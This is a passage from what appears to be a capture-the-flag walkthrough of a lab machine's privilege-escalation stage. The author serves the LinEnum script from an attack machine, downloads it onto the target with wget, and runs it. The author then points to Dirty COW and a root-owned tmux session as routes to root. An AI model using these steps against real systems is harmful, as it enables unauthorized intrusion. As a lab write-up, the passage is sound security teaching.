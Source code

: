 Grab the user flag.

![](../images/max/502/1*F59vVNSi-MfvvrMczOuSgw.png)

We need to escalate privileges.

## Privilege Escalation <a id="cc00"></a>

Grab the [LinEnum](https://github.com/rebootuser/LinEnum) script if you don’t already have it. In the attack machine, start up a server in the directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine download the script.

```text
wget http://10.10.14.6:5555/LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We get back many results of which two are interesting.

First, it’s running an old version of Ubuntu that is probably vulnerable to [Dirty COW](https://dirtycow.ninja/). Dirty COW is a privilege escalation vulnerability which exploits a race condition in the way the Linux kernel’s memory subsystem handles the copy-on-write \(COW\) breakage of private read-only memory mappings.

![](../images/max/561/1*BrazHc5GyWfr26QOvRJlaA.png)

Second, there’s an active tmux session that is owned by root.

![](../images/max/919/1*XfFIN0eDDp1hhhxhygwlrQ.png)

According to the [tmux man page](http://man7.org/linux/man-pages/man1/tmux.1.html):
